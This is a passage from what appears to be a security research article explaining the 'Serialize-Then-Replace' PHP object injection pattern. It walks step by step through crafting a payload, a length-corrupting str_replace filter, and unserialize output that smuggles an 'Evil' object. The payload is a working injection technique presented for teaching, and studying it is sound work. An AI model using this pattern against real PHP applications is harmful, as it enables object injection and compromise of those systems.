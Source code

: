 </PRE>
#### ------[  2.1 - The "Serialize-Then-Replace" Pattern
<PRE>

As far as I remember, the first time I saw this pattern was back in 0CTF
2016 [25]. The pattern leverages an extra step that applications perform
on serialized strings - breaking the serialization format, causing the
embedded string to escape from its intended context, and ultimately get
interpreted as an entirely new - and malicious - object!

+--------------------[ Serialize, Replace, Then Pwn!

=> [1] crafting the payload...
</PRE>
```php
<?PHP
php > $user = 'orange';
php > $pass = ';s:8:"password";O:4:"Evil":0:{}s:8:"realname";s:5:"pwned';
php > $name = 'Orange Tsai' . str_repeat('..', 25);
php > $obj = new User($user, $pass, $name);
php > $data = serialize($obj);
```
<PRE>

=> [2] developers attempt to block path traversal :)
</PRE>
```python
php > $data = str_replace("..", "", $data);
```
<PRE>

=> [3] the length of `realname` field has been corrupted ;)
</PRE>
```php
<?PHP
php > print_r($data);
 O:4:"User":3:{
     s:8:"realname";s:61:"Orange Tsai";s:8:"username";[...]
                      ^^ <--- corrupted length: [61 bytes]
                        |---------------------------------|
                        |"Orange Tsai";s:8:"username";s:6:|
                        |"orange";s:8:"password";s:56:"   |
                        |---------------------------------|
     ;s:8:"password";O:4:"Evil":0:{}
     s:8:"realname";s:5:"pwned";
 }
```
<PRE>

=> [4] We have smuggled our own *Evil* object!
</PRE>
```php
<?PHP
php > print_r(unserialize($data));
 User Object (
     [realname] => pwned
     [password] => Evil Object ()
 )
```
<PRE>
